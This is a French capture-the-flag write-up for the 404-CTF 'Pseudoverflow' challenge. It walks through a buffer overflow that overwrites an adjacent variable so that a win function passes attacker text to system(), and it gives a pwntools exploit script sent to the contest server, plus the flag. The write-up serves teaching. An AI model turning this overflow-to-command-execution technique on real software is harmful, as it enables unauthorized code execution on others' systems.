

# Write-Up 404-CTF : Pseudoverflow

__Catégorie :__ Exploitation de binaires - Intro

**Enoncé :**



**Résolution :**

Dans cette introduction à l'exploitation de binaire, nous devons réussir à lire le fichier `flag.txt` en exploitant le programme `course`.

Comme aucune source n'est fournie, je décide donc de le décompiler avec Ghidra.


C'est une fonction `main` toute simple qui vient lire une entrée utilisateur et vérifie ensuite si une variable interne est égale à `gagne`. Si les chaînes sont égales, alors la fonction win est appelée sur le buffer. La fonction `win()` ne fait qu'un appel à `system()`, une fonction en C permettant d'exécuter des commandes bash.

Malheureusement, ce n'est pas notre entrée qui est comparée à `gagne`. En revanche, on remarque quelque chose d'étonnant : le buffer contenant l'entrée utilisateur fait 106 octets mais nous sommes autorisés à envoyer jusqu'à 256 octets. Nous allons donc exploiter cet overflow pour écraser le contenu de la variable `local_e` et écrire `gagne` à la place. Par chance, `buffer` et `local_e` sont déclarées l'une à la suite de l'autre. Leur enplacement mémoire sera donc contigu.

Etat de la mémoire à la déclaration :

```
|         buffer (106 o.)         | local_e (4 o.) | local_a (2 o.) |
```

Etat après lecture de stdin :

```
|      "cat flag.txt" + padding      | "gagn" | "e" |
```

Il n'y a plus qu'à écrire un script Python avec pwntools pour mettre en oeuvre l'exploit.

```python
from pwn import *

context.log_level = "debug"

lenOverflow = 106
cmd = b"cat flag.txt\x00" # Null byte to delimit command from padding
payload = cmd + b'A' * (lenOverflow - len(cmd)) + b'gagne\x00\n'

# p = process(['./course']) # Local test
p = remote("challenges.404ctf.fr", 31958) 

p.recvuntil(b"pseudo :\n")
p.send(payload)
data = p.recvall(timeout=2)
print(data.decode())
```

**Flag :** `404CTF{0v3rfl0w}`